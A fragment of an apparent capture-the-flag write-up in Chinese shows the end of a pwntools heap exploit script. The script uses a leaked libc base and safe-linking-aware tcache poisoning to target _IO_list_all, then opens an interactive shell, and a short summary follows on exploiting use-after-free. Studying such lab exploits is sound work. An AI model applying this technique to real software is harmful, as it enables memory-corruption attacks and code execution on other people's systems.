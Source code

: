 ```py
io_list_all = libc_base + libc.sym["_IO_list_all"]
update_string(["07","00","00","00"],b"a"*0x18+p64(0x21)+p64((io_list_all - 0x10)^((heap_base+0x2200)//0x1000))+p64(0)*2+p64(0x50)+b"\n")

copy(["07","00","01"],"05")
copy(["07","00","01"],"06")
copy(["07","00","01"],"07")
update_string(["07","00","07","00"],str(payload_addr)+"\n") # TODO
p.recvuntil("> ")
p.send("\n")
p.interactive()
```

### 总结
总结就是，一定要找准所有 malloc 和 free 的位置，以及 UAF 不一定是像经典的情况下有直接改 fd 和 bk 的机会，申请出来该 UAF chunk 为别的结构体从而顺势改 fd/bk 也是合理的操作 ~     
